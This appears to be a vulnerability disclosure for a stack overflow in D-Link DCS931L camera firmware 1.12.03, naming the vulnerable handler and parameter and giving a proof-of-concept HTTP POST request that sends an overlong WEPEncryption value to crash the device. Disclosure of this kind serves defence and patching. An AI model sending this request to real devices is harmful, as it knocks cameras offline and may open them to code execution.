


# D-Link Vulnerability

Vendor:D-Link

Product:DCS931L

Version:1.12.03

Type:Stack Overflow

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an stack overflow vulnerability in D-Link camera with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `alphapd` binary:

In the router's `RadioOfWEPEncryWay` function, `WEPEncryption` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `WEPEncryption` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `WEPEncryption` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `WEPEncryption` as **aaaaa......,** , and the router will crash, such as:

```http
POST /RadioOfWEPEncryWay HTTP/1.1
Host: 192.168.1.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: http://192.168.1.4
Authorization: Basic YWRtaW46
Connection: keep-alive
Referer: http://192.168.1.4/waitscan.htm
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

SSID=NETGEAR75&ConnectionMode=0&WirelessChannel=1&WEPEncryption=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
